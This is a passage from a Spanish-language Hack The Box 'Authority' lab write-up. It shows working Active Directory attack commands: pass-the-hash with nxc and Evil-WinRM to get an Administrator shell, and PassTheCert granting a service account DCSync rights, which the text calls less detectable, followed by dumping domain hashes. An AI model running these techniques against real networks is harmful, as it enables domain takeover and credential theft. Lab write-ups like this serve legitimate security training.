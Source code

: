 Verificamos que el NT hash obtenido es válido realizando un Pass-The-Hash (PTH) con **nxc**, lo que nos confirma que la autenticación con el hash NTLM del usuario **Administrator** es correcta. Luego, utilizamos **Evil-WinRM** para acceder al **DC** con privilegios de administrador y, finalmente, verificamos el contenido de la flag **root.txt**.

```bash
❯ nxc smb 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Administrator:6961f422924da90a6928197429eea4ed (Pwn3d!)
❯ evil-winrm -i 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
ecfaa***************************
```

### Nº2 PrivEsc - Assigning DCSync permissions to a user through PassTheCert Authentication

Otro método que encontramos es asignar permisos de **`DCSync`** a un usuario sin necesidad de añadirlo directamente al grupo **`Domain Admins`**, lo cual puede ser una acción más evidente. Utilizamos **`PassTheCert`** para otorgar estos permisos al usuario **`svc_ldap`**, lo que nos permite realizar un **`secretsdump`** posteriormente para extraer hashes de contraseñas sin necesidad de ser parte del grupo de administradores.

Con este método, le otorgamos al usuario **`svc_ldap`** permisos para realizar un **`DCSync`** sin necesidad de comprometer directamente a **`Domain Admins`**, lo que lo hace menos detectable. Esto nos permitirá extraer hashes de contraseñas y realizar otras acciones de escalada de privilegios.

```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -target svc_ldap -elevate
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Granted user 'svc_ldap' DCSYNC rights!
```

En este caso, usamos **`nxc`** para realizar el dump del archivo **`NTDS.dit`** desde el controlador de dominio. Este es otro método que aprovechamos para obtener los hashes de contraseñas del dominio. En este proceso, conseguimos hacer el dump de los hashes NTDS del controlador de dominio. Entre los resultados obtenidos, encontramos varios hashes relevantes, como los de los usuarios **`Administrator`**, **`Guest`**, **`krbtgt`**, y **`svc_ldap`**.&#x20;

Con esto, podríamos emplear la técnica de `PassTheHash` para autenticarnos como el usuario `Administrator` con su hash NTLM.
